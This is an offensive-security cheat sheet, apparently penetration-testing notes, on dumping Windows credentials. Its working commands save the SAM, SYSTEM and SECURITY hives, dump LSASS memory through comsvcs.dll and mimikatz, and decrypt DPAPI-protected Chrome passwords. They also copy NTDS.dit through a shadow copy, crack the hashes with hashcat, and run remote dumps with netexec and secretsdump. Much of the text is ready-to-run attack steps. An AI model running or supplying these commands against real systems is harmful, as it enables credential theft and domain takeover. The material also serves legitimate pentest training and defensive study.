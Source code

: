 # Extracting Password from Windows Systems

## SAM, SYSTEM, and SECURITY

With administrative access to a Windows system, we can attempt to quickly dump the files associated with the SAM database, transfer them to our attack host, and begin cracking the hashes offline.

Registry hives

| Registry Hive    | Description                                                                                                                                 |
|------------------|---------------------------------------------------------------------------------------------------------------------------------------------|
| HKLM\SAM         | Contains password hashes for local user accounts. These hashes can be extracted and cracked to reveal plaintext passwords.                |
| HKLM\SYSTEM      | Stores the system boot key, which is used to encrypt the SAM database. This key is required to decrypt the hashes.                        |
| HKLM\SECURITY    | Contains sensitive information used by the Local Security Authority (LSA), including cached domain credentials (DCC2), cleartext passwords, DPAPI keys, and more. |

If we're only interested in dumping the hashes of local users, we need only HKLM\SAM and HKLM\SYSTEM

**Using reg.exe to copy registry hives**
````
> reg.exe save hklm\sam C:\sam.save
> reg.exe save hklm\system C:\system.save
> reg.exe save hklm\security C:\security.save
````
**File Directory**
````
> C:\Windows\System32\config\SAM
> C:\Windows\System32\config\SECURITY
> C:\Windows\System32\config\SYSTEM
````
Copy to local machine
````
$ impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
$ impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL

Dumping local SAM hashes (uid:rid:lmhash:nthash)

$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
$ hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
````

**Dump Sam Remote**
````
$ netexec smb <IP> --local-auth -u <user> -p <password> --sam
````

**DPAPI**
In addition to the DCC2 hashes, we previously saw that the machine and user keys for DPAPI were also dumped from hklm\security. The Data Protection Application Programming Interface, or DPAPI, is a set of APIs in Windows operating systems used to encrypt and decrypt data blobs on a per-user basis.

| Applications              | Use of DPAPI                                                                                   |
|---------------------------|-----------------------------------------------------------------------------------------------|
| Internet Explorer         | Password form auto-completion data (username and password for saved sites).                  |
| Google Chrome             | Password form auto-completion data (username and password for saved sites).                  |
| Outlook                   | Passwords for email accounts.                                                                 |
| Remote Desktop Connection | Saved credentials for connections to remote machines.                                        |
| Credential Manager        | Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more.  |

DPAPI encrypted credentials can be decrypted manually with tools like Impacket's dpapi, mimikatz, or remotely with DonPAPI.
````
C:\Users\Public> mimikatz.exe
mimikatz # dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
````
Dump lsa & dpapi Remote
````
$ netexec smb <IP> --local-auth -u <user> -p <password> --lsa
$ netexec smb <IP> -u <user> -p <password> --dpapi
$ netexec smb <IP> -u <user> -p <password> --dpapi cookies
$ netexec smb <IP> -u <user> -p <password> --dpapi nosystem
$ netexec smb <IP> -u <user> -p <password> --local-auth --dpapi nosystem
````

## LSASS

We will also benefit from targeting the Local Security Authority Subsystem Service (LSASS). As covered in the Credential Storage section of this module, LSASS is a core Windows process responsible for enforcing security policies, handling user authentication, and storing sensitive credential material in memory.

### Dumping LSASS process memory

**Task Manager method**
- Open Task Manager
- Select the Processes tab
- Find and right click the Local Security Authority Process
- Select Create dump file

A file called lsass.DMP is created and saved in %temp%. `cp <path_lsass.dmp> <directory_wanted>`

**Rundll32.exe & Comsvcs.dll method**
````
> tasklist /svc (Find PID Lsass from cmd)
> Get-Process lsass (Find PID Lsass from powershell)
> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
````

After extracting the process, we will copy it to our machine.

**Pypykatz to extract credentials**
````
$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp
````

**Mimikatz**
````
# privilege::debug
# sekurlsa::logonpasswords
# sekurlsa::logonPasswords full
# sekurlsa::credman
````

**Dump Remote**
````
$ nxc smb <IP> -u <user> -p '<password>' -M lsassy

````

## Windows Credential Manager

Credential Manager is a feature built into Windows since Server 2008 R2 and Windows 7. Thorough documentation on how it works is not publicly available, but essentially, it allows users and applications to securely store credentials relevant to other systems and websites.

- %UserProfile%\AppData\Local\Microsoft\Vault\
- %UserProfile%\AppData\Local\Microsoft\Credentials\
- %UserProfile%\AppData\Roaming\Microsoft\Vault\
- %ProgramData%\Microsoft\Vault\
- %SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\

Each vault folder contains a Policy.vpol file with AES keys (AES-128 or AES-256) that is protected by DPAPI. These AES keys are used to encrypt the credentials.

| Name               | Description                                                                                                                             |
|--------------------|-----------------------------------------------------------------------------------------------------------------------------------------|
| Web Credentials     | Credentials associated with websites and online accounts. This locker is used by Internet Explorer and legacy versions of Microsoft Edge. |
| Windows Credentials | Used to store login tokens for various services such as OneDrive, and credentials related to domain users, local network resources, services, and shared directories. |

**Enumerating credentials with cmdkey**
````
>cmdkey /list
Currently stored credentials:
    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
````
Stored credentials are listed with the following format:

| Key         | Value                                                                                                                                             |
|-------------|---------------------------------------------------------------------------------------------------------------------------------------------------|
| Target      | The resource or account name the credential is for. This could be a computer, domain name, or a special identifier.                              |
| Type        | The kind of credential. Common types are Generic for general credentials, and Domain Password for domain user logons.                            |
| User        | The user account associated with the credential.                                                                                                  |
| Persistence | Some credentials indicate whether a credential is saved persistently on the computer; credentials marked with Local machine persistence survive reboots. |

We can use runas to impersonate the stored user like so:
````
>runas /savecred /user:SRV01\mcharles cmd
````

## Active Directory and NTDS.dit

**Creating shadow copy of C:**
````
C:\> vssadmin CREATE SHADOW /For=C:
C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
````

**Copy NTDS.dit file**
````
> copy %SystemRoot%\NTDS\Ntds.dit <directory_to_copy>
````

**Extract Hashes**
````
$ impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
````

**Extract Remote**
````
$ netexec smb <IP> -u <user> -p <password> -M ntdsutil
$ nxc smb <IP> -u <user> -p '<password>' --ntds
$ nxc smb <IP> -u <user> -p '<password>' --ntds --user Administrator (Dump a specific user only)
$ impacket-secretsdump <domain>/<user>:<password>@<ip_dc>
````
